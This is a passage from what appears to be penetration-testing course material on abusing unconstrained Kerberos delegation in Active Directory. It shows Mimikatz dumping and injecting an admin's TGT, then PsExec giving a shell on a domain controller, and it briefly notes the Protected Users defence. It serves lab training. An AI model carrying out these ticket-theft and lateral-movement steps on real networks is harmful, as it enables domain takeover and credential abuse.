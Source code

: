 ```
   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
   * Saved to file [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi !

...

mimikatz # kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi

* File: '[0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi': OK
```

> Listing 20 - Dumping and injecting TGT

With the TGT for the _admin_ user injected into memory, we can exit Mimikatz and test our access on the domain controller with PsExec.

```
mimikatz # exit
Bye!

C:\Tools> C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
prod\admin
```

> Listing 21 - Obtaining code execution on the domain controller

We have achieved code execution on the domain controller since the _admin_ user is a member of the Domain Admins group.

This illustrates that if a user connects to a service that is configured with unconstrained Kerberos delegation, that user can be compromised.

By default, all users allow their TGT to be delegated, but privileged users can be added to the _Protected Users_ group,[3](https://portal.offsec.com/courses/pen-300-9502/learning/active-directory-exploitation-14684/active-directory-exploitation-14915#fn-local_id_635-3) which blocks delegation. Obviously, this will also break the functionality of the application that required unconstrained delegation for those users.

In the next section, we'll improve our abuse of unconstrained delegation so that we do not have to rely on social engineering an administrative user.

**Exercise**

1. Repeat the attack shown in this section to achieve code execution on the domain controller.

Reboot appsrv01 between sections to ensure no prior tickets are present in memory.
